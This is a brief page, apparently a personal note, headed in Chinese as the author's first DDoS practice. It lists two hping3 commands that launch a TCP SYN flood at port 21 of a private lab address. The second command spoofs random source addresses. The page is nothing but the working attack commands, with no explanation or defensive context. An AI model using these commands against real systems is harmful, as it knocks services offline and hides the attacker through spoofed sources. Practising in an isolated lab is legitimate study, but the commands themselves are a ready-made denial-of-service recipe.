 
### 這是我第一次的DDos實作。

  hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129
  hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129
